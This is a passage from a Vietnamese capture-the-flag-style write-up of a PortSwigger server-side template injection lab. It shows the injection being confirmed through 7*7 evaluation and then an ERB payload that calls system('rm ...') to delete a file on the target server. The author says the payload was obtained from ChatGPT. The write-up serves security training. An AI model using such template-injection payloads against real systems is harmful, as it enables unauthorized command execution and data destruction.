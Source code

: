 Send request này:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side_template_injection/images/image6.png?raw=true)

=> Thành công in ra kết quả của 7*7, website có thể dính lỗ hổng `SSTI`.

Theo yêu cầu bài lab, cần xóa tệp `morale.txt` khỏi thư mục chính của `Carlos`, tôi đã search chat gpt yêu cầu tạo payload bằng ngôn ngữ Ruby:

    <%= system('rm /home/carlos/morale.txt') %>

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side_template_injection/images/image7.png?raw=true)

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side_template_injection/images/image8.png?raw=true)
